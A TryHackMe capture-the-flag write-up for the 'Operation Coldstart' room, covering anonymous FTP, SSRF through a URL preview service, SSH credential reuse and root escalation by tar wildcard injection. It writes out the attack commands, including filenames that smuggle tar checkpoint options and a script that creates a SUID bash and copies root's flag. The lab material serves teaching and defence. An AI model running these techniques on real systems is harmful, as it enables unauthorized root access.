




# TryHackMe — Operation Coldstart

## Overview

- **Room:** Operation Coldstart
- **Platform:** TryHackMe
- **Difficulty:** Easy
- **Focus:** FTP enumeration, anonymous access, source code analysis, SSRF-style URL preview abuse, SSH credential discovery, and cron-based privilege escalation using `tar` wildcard injection.

---

## Attack Path

The compromise followed this chain:

```text
Nmap service enumeration
        ↓
Anonymous FTP access
        ↓
Download and extract backup.tar.gz
        ↓
Source code analysis of app.py
        ↓
Identify trusted internal hostname kestrel.thm
        ↓
Abuse URL Preview Service to access internal admin notes
        ↓
Recover webdev SSH credentials
        ↓
SSH login as webdev
        ↓
Retrieve user flag
        ↓
Enumerate privilege escalation paths
        ↓
Discover root cron job using tar in /opt/backups
        ↓
Exploit tar wildcard checkpoint options
        ↓
Execute shell.sh as root
        ↓
Retrieve root flag
```

---

# 1. Nmap Enumeration

I started by scanning the target to identify open ports, running services, and potential attack surfaces.

```bash
nmap -sS -p- <TARGET_IP>
```

The scan identified three open services:

- **21/tcp — FTP**
- **22/tcp — SSH**
- **80/tcp — HTTP**

FTP was the first service I investigated because exposed file-transfer services can allow access to files that are not publicly available through the website.


## 1.1 FTP Enumeration

### Service and Version Detection

I used Nmap's FTP scripts to gather additional information about the service.

```bash
nmap -p 21 --script ftp-* <TARGET_IP>
```

The output included the following error:

```text
NSE: [ftp-bounce] PORT response: 500 Illegal PORT command.
```

This indicated that the FTP service rejected the particular FTP `PORT` command used by the script. It did not, by itself, establish that all wildcard requests were rejected.

I then performed version detection:

```bash
nmap -p 21 -sV <TARGET_IP>
```

The service was identified as:

```text
vsftpd 3.0.5
```

Rather than relying on a version-based exploit, I shifted my attention to the service configuration and possible anonymous access.



### Anonymous Login

I checked whether anonymous FTP access was enabled.

```bash
nmap -p 21 --script ftp-anon <TARGET_IP>
```

The results confirmed that anonymous login was allowed.


### Downloading the Backup

I connected to the FTP service using anonymous credentials and inspected the available directories.

The `pub` directory contained a file named `backup.tar.gz`.

I downloaded it using:

```text
get backup.tar.gz
```


### Extracting the Archive

The downloaded file was compressed using gzip. I decompressed it with:

```bash
gzip -d backup.tar.gz
```

This produced:

```text
backup.tar
```

I then extracted the TAR archive:

```bash
tar -xf backup.tar
```

The extraction created a directory named:

```text
voltlabs-preview
```

Inside the directory, I found three files:

```text
README.MD
app.py
requirements.txt
```

The contents of `README.MD` and `requirements.txt` were not recorded in my notes, so I focused on the application source code in `app.py`.

### Reviewing app.py

The source code contained the following configuration:

```text
# Only requests targeting an approved internal hostname are forwarded.
# Internal hostname resolves to 127.0.0.1 via /etc/hosts on this box.
ALLOWED_HOSTS = {"kestrel.thm"}
```

This revealed that the application trusted the internal hostname `kestrel.thm`, which resolved to the loopback address on the target.

The source also exposed an administrative route:

```text
@app.route("/admin/")
@app.route("/admin/<path:p>")
def admin(p="index"):
    if not request.remote_addr.startswith("127."):
        abort(403)
    if p == "notes":
        with open("/opt/voltlabs-preview/admin_notes.txt") as f:
            return "<pre>" + f.read() + "</pre>"
    return "<pre>Volt Labs admin endpoint.</pre>"
```

The route enforced a loopback-only access restriction. Requests whose remote address did not begin with `127.` were rejected.

The `notes` path read a file from:

```text
/opt/voltlabs-preview/admin_notes.txt
```

This provided a potential route to sensitive information if I could make the URL Preview Service access the internal endpoint from the target itself.

**Finding:** The backup disclosed internal application configuration, an allow-listed hostname, an administrative endpoint, and the location of an internal notes file.


## 1.2 SSH Enumeration

I also checked the SSH service for additional information using Nmap's SSH scripts.

```bash
nmap -p 22 --script "ssh-*" <TARGET_IP>
```

The scan did not immediately provide a useful route to access. I stopped investigating SSH at this stage and returned to the web application, where the FTP source code had revealed a more promising attack path.


## 1.3 Gobuster Enumeration

I used Gobuster to discover web directories and files.

```bash
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirb/common.txt
```

The scan identified two important paths:

```text
/admin
/preview
```

The `/preview` endpoint was especially relevant because the application source code described a URL Preview Service that forwarded requests to approved internal hostnames.

The `/admin` path was also consistent with the administrative route discovered in `app.py`.



---

# 2. HTTP Application — Internal URL Access

## 2.1 Investigating the URL Preview Service

I navigated to the target website:

```text
http://<TARGET_IP>/
```

The website hosted a URL Preview Service that operated using an internal allow-list.

Reviewing the extracted `app.py` file, I identified the following configuration:

```text
ALLOWED_HOSTS = {"kestrel.thm"}
```

This indicated that `kestrel.thm` was an approved hostname for requests made through the preview application.

The source code also showed that the administrative endpoint restricted direct access to requests originating from the loopback interface. This meant that accessing the endpoint directly from my attacking machine would not satisfy the application's access-control check.

However, the URL Preview Service provided a way to ask the application to retrieve a URL. If the server made the request itself, the internal endpoint could see a request originating from the target's loopback interface.

## 2.2 Accessing the Internal Admin Notes

Using the URL Preview Service, I submitted the following URL:

```text
http://kestrel.thm/admin/notes
```

The application returned the contents of the internal notes file:

```text
=== INTERNAL ===

SSH access for staging:

user: webdev
pass: <REDACTED>

- Mara
```

This disclosed SSH credentials for the `webdev` account.

**Finding:** The URL Preview Service could be abused to access an internal administrative resource that was protected by a loopback-only restriction.

**Vulnerability:** The application trusted user-controlled URL requests without adequately preventing access to sensitive internal endpoints. This created an SSRF-style internal access vulnerability, allowing disclosure of the administrative notes and SSH credentials.



---

# 3. SSH Login and User Flag

## 3.1 Logging in as webdev

Using the credentials recovered from the internal notes, I connected to the target over SSH.

```bash
ssh webdev@<TARGET_IP>
```

When prompted, I entered the recovered password. The login succeeded, providing a shell as `webdev`.

## 3.2 Retrieving the User Flag

I inspected the account's home directory and located `user.txt`.

```bash
ls -la
cat user.txt
```

The file contained the user flag.

**User flag:**

```text
THM{REDACTED}
```

Replace the placeholder with the actual flag recovered during the room.



---

# 4. Privilege Escalation Enumeration

After obtaining SSH access, I investigated possible ways to escalate privileges from `webdev` to root.

## 4.1 Checking Sudo Permissions

I checked the current account's sudo permissions:

```bash
sudo -l
```

I entered the `webdev` password when prompted. The output indicated that the account did not have elevated sudo privileges.

This ruled out a straightforward sudo-based escalation using the permissions assigned directly to `webdev`.

## 4.2 Searching for SUID Binaries

I searched the filesystem for files with the SUID permission bit set.

```bash
find / -perm -4000 -type f 2>/dev/null
```

This did not reveal a useful SUID-based privilege escalation path.

## 4.3 Investigating Scheduled Tasks

I next investigated scheduled tasks, including the system-wide cron configuration.

```bash
cat /etc/crontab
```

There were no useful entries in `/etc/crontab`, so I continued looking through other cron configuration locations.

I discovered the following file:

```text
/etc/cron.d/voltlabs-backup
```

I inspected its contents:

```bash
cat /etc/cron.d/voltlabs-backup
```

The recorded configuration was:

```text
# Volt Labs staging backup - runs as root
SHELL=/bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

* * * * * * root cd /opt/backups && tar czf /var/backups/uploads.tg
```

The important elements were:

- The scheduled task was configured to run as `root`.
- The command changed into `/opt/backups`.
- The command invoked `tar` to create a backup archive.
- The scheduled task was configured to execute frequently.

The recorded cron expression contains six asterisks before `root`, which is not the standard five-field cron format used by typical `/etc/cron.d` entries. The exact expression should be checked against the original target output. The intended attack path described in my notes relies on a recurring root-owned backup task.

**Finding:** A privileged backup task invoked `tar` from `/opt/backups`, creating a potential attack surface if the archive command processed attacker-controlled filenames.

---

# 5. Root Privilege Escalation — Tar Wildcard Injection

## 5.1 Understanding the Vulnerability

The backup task ran `tar` from `/opt/backups`. If the command used a wildcard to include files from that directory, filenames crafted to resemble `tar` command-line options could be interpreted as options rather than ordinary filenames.

This technique is commonly known as **tar wildcard injection**.

GNU `tar` supports checkpoint options that can execute an action when a checkpoint is reached. If attacker-controlled filenames are expanded by a shell into the `tar` command's arguments, specially named files can cause those arguments to be interpreted as options.

The relevant option names in this attack were:

```text
--checkpoint=1
--checkpoint-action=exec=sh shell.sh
```

The backup task therefore provided a potential route to execute a script with the privileges of the cron job.

**Important:** The notes supplied for this room do not include the complete original cron command showing the wildcard. Confirm that the actual task used wildcard expansion before treating this exploitation detail as verified.

## 5.2 Creating the Shell Script

I navigated to the backup directory:

```bash
cd /opt/backups
```

I created a script named `shell.sh` containing the following commands:

```text
cp /bin/bash /tmp/bash && chmod +s /tmp/bash
cp /root/flag.txt /tmp/flag.txt && chmod 777 /tmp/flag.txt
```

The first command copied Bash to `/tmp/bash` and enabled its SUID bit. If the command executed successfully as root and the filesystem permitted SUID execution, this would provide a route to a privileged shell.

The second command copied the root flag to `/tmp/flag.txt` and changed its permissions to allow it to be read.

The intended purpose of the script was to use the privileges of the root-owned backup job to create privileged files in `/tmp`.

## 5.3 Creating the Tar Checkpoint Filenames

I created the specially named files in `/opt/backups`:

```text
touch '/opt/backups/--checkpoint=1'
touch '/opt/backups/--checkpoint-action=exec=sh shell.sh'
```

If the backup command expanded a wildcard over the directory contents and passed these filenames to GNU `tar`, the filenames could be interpreted as checkpoint options.

When the scheduled backup executed, the intended result was for `tar` to execute `shell.sh` with root privileges.

## 5.4 Obtaining Root Access

After the scheduled task ran, I checked `/tmp` for the files created by the script.

```bash
ls -l /tmp/bash /tmp/flag.txt
```

If `/tmp/bash` had been created successfully with its SUID bit enabled, the intended next step was to launch it with privileges preserved:

```bash
/tmp/bash -p
```

I could then verify the effective identity:

```bash
id
```

The expected result of a successful escalation was a root shell. I could read the copied flag using:

```bash
cat /tmp/flag.txt
```

**Root flag:**

```text
THM{REDACTED}
```

Replace the placeholder with the actual root flag recovered during the room.


---

# 6. Findings and Vulnerabilities

## Finding 1 — Anonymous FTP Exposed a Backup Archive

The FTP service allowed anonymous access to a directory containing `backup.tar.gz`. Extracting this archive exposed application source code and internal configuration details.

**Impact:** An unauthenticated attacker could obtain information that helped identify the application's trusted internal hostname, administrative routes, and internal file paths.

## Finding 2 — Internal URL Access Through the Preview Service

The URL Preview Service accepted a URL targeting `kestrel.thm`. This allowed access to `/admin/notes`, which was intended to be restricted to requests originating from the loopback interface.

**Impact:** Sensitive internal notes and SSH credentials were disclosed, enabling access to the `webdev` account.

## Finding 3 — Exposed SSH Credentials

The internal notes contained credentials for the staging account:

```text
Username: webdev
Password: <REDACTED>
```

**Impact:** The disclosed credentials allowed an attacker to authenticate over SSH and retrieve the user flag.

## Finding 4 — Root Cron Job Potentially Vulnerable to Tar Wildcard Injection

The backup cron configuration showed a root-owned task running `tar` from `/opt/backups`. The attack notes describe using specially named files to invoke GNU `tar` checkpoint options and execute a shell script.

**Impact:** If the actual backup command expanded attacker-controlled filenames into `tar` arguments, an attacker with write access to the working directory could potentially execute commands with root privileges.

---
# Final Attack Chain Summary

The complete attack path I followed to compromise Operation Coldstart was:

```text
Nmap enumeration
        ↓
Anonymous FTP access
        ↓
Download and extract backup.tar.gz
        ↓
Inspect app.py
        ↓
Identify kestrel.thm and internal admin route
        ↓
Abuse URL Preview Service
        ↓
Read /admin/notes
        ↓
Recover webdev SSH credentials
        ↓
SSH login as webdev
        ↓
Retrieve user flag
        ↓
Enumerate sudo, SUID, and cron jobs
        ↓
Discover root-owned backup task
        ↓
Prepare shell.sh and tar checkpoint filenames
        ↓
Trigger privileged script execution
        ↓
Retrieve root flag
```

---

# 7. Key Vulnerabilities

| Vulnerability | Impact |
|---|---|
| Anonymous FTP access | Exposed a backup archive containing application source code and configuration details. |
| Sensitive information disclosure | Revealed internal hostnames, administrative routes, and file paths. |
| SSRF-style internal URL access | Allowed the preview service to retrieve a loopback-restricted administrative resource. |
| SSH credential exposure | Enabled authentication as `webdev`. |
| Insecure root backup task | Potentially exposed a privileged command to attacker-controlled filenames through tar wildcard injection. |

---

# 8. Lessons Learned

This room demonstrated the importance of investigating exposed services beyond their version numbers. Anonymous FTP access provided a backup archive that revealed application source code, trusted hostnames, and internal administrative routes. Reviewing that source code helped identify a way to abuse the URL Preview Service and retrieve credentials from an internal notes file.

The privilege escalation stage highlighted the risks of running backup utilities as root when their arguments can be influenced by files in a writable directory. Scheduled tasks should use safe argument handling, avoid unnecessary wildcard expansion, and restrict write permissions on backup directories. Internal URL-fetching applications should also enforce destination restrictions and prevent requests to loopback and other sensitive internal resources.

---